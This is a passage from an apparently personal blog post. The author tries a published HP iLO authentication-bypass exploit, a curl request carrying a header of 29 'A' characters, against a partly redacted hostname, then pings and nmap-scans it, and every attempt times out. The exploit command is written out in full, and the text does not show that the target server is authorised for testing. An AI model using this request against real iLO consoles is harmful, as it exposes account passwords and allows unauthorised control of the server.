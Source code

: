 > Last year, a trio of security researchers discovered such a vulnerability, which they say it can be exploited remotely, via an Internet connection, putting all iLO servers exposed online at risk.
>
> The vulnerability is an authentication bypass that allows attackers access to HP iLO consoles. Researchers say this access can later be used to extract cleartext passwords, execute malicious code, and even replace iLO firmware.
>
> But besides being a remotely exploitable flaw, this vulnerability is also as easy as it gets when it comes to exploitation, requiring a cURL request and 29 letter "A" characters

Wow! So, all we need to do to get a list of users and passwords for iLO is make a request to the iLO server's API and send it a bunch of "A"s. Let's give it a go:

```cmd
C:\>curl -i -k -H "Connection: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA" https://xxxxxxxx-akl-nz-lo.reivernet.com/rest/v1/AccountService/Accounts

curl: (7) Failed to connect to xxxxxxxx-akl-nz-lo.reivernet.com port 443: Timed out
```

Damn, nothing. Just to make sure, let's test a normal request to iLO that should be actively rejected by the server:

```cmd
C:\>curl -i -k https://xxxxxxxx-akl-nz-lo.reivernet.com/rest/v1/AccountService/Accounts

curl: (7) Failed to connect to xxxxxxxx-akl-nz-lo.reivernet.com port 443: Timed out
```

Hmmm, okay - nothing again. We're expecting to see some JSON formatted data. Let's just check that we can see the server by pinging it:

```powershell
PS C:\> ping xxxxxxxx-akl-nz-lo.reivernet.com
Pinging xxxxxxxx-akl-nz-lo.reivernet.com [203.167.xxx.xxx] with 32 bytes of data:
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.

Ping statistics for 203.167.xxx.xxx:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
```

Okay, no ping response. Maybe they've moved the iLO port and told the server to not respond to ping requests. Let's run a quick nmap scan:

```powershell
PS C:\> nmap -O xxxxxxxx-akl-nz-lo.reivernet.com

Starting Nmap 7.80 ( https://nmap.org ) at 2019-08-25 23:15 New Zealand Standard Time
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 5.41 seconds
```

Hmmm, either this server's not accessible externally any more, or they've done a good job of making it appear dark online.
